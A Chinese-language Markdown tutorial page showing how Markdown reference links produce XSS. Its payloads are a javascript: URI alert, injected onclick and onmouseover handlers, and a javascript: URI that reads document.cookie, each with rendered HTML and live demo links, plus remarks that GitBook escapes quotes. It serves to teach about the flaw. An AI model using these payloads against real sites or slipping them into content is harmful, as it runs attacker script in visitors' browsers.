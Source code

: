 # Markdown XSS 連結攻擊


## 執行 JavaScript alert

***程式碼***

```markdown
[執行 JavaScript alert][1]
[1]: javascript:alert(123);
```

***產生 Markdown HTML***

```html
<a href="javascript:alert(123);" target="_blank">執行 JavaScript alert</a>
```

***Demo***

[執行 JavaScript alert][1]






## 滑鼠點擊事件

***程式碼***

```markdown
[滑鼠點擊事件][2]
[2]: http://www.googl.com.tw/#"onclick='alert(123)'
```

***產生 Markdown HTML***

```html
<a href="http://www.googl.com.tw/#" onclick='alert(123)' target="_blank">滑鼠點擊事件</a>
```

***Demo***

[滑鼠點擊事件][2]

> 在 gitbook 有將特殊字元 " 字串轉換成無法執行的 ```&quot;```，所以 gitbook 沒有這方面的漏洞







## 滑鼠滑過事件

***程式碼***

```markdown
[滑鼠滑過事件][3]
[3]: http://www.googl.com.tw/#"onmouseover='alert(123)'
```

***產生 Markdown HTML***

```html
<a href="http://www.googl.com.tw/#" onmouseover='alert(123)' target="_blank">滑鼠滑過事件</a>
```

***Demo***

[滑鼠滑過事件][3]

> 在 gitbook 有將特殊字元 " 字串轉換成無法執行的 ```&quot;```，所以 gitbook 沒有這方面的漏洞








### 擷取你的 cookie

```markdown
[擷取你的 cookie][4]
[4]: javascript:document.cookie='yourcookie=這是你的cookie';alert(document.cookie);
```

***產生 Markdown HTML***

```html
<a href="javascript:document.cookie='yourcookie=這是你的cookie';alert(document.cookie);" target="_blank">擷取你的 cookie</a>
```

***Demo***

[擷取你的 cookie][4]


## 參考資料
* [XSS等web安全漏洞的防范](http://deadhorse.me/nodejs/2012/09/20/xss_in_cnode.html)



[1]: javascript:alert(123);
[2]: http://www.googl.com.tw/#"onclick='alert(123)'
[3]: http://www.googl.com.tw/#"onmouseover='alert(123)'
[4]: javascript:document.cookie='yourcookie=這是你的cookie';alert(document.cookie);